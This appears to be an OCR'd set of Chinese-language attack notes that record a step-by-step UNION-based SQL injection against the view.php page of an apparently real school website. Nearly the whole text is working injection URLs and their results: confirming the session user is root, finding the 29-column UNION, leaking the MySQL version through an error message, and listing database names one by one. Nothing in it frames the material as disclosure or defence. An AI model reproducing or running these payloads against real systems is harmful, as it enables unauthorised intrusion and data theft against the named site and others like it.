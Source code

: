 	使用root的十六进制编码0x726f6f74验证，用户名为root

	http://www.dyyz.net.cn/celebrate/view.php?id=1022%20and%20session_user()%20like%200x25726F6F7425

	session_user是root,   session_user() like "%root%"

	http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29%20--

	界面上出现了29

	http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,@@version%20--

	获取数据库版本, 5.0.91-community-nt
	
	Warning: file_get_contents(D:/www/celebrate/templist/default/5.0.91-community-nt) [function.file-get-contents]: failed to open stream: No such file or directory in D:\www\celebrate\inc\temp.php on line 56

	http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%20(select%20count(*)%20from%20information_schema.tables)%20=109

	information_schema的TABLES表中有109条记录

	http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20count(distinct(table_schema))%20from%20information_schema.tables)%20--

	一共有六个数据库

	http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20distinct(table_schema)%20from%20information_schema.tables%20limit%200,1)%20--

	第一个数据库: information_schema

	http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20distinct(table_schema)%20from%20information_schema.tables%20limit%201,1)%20--

	第二个数据库: duxcms

	http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20distinct(table_schema)%20from%20information_schema.tables%20limit%202,1)%20--

	第三个数据库: jcms

	http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20distinct(table_schema)%20from%20information_schema.tables%20limit%203,1)%20--

	第四个数据库: mysql

	http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20distinct(table_schema)%20from%20information_schema.tables%20limit%204,1)%20--

	第五个数据库: qcms
	
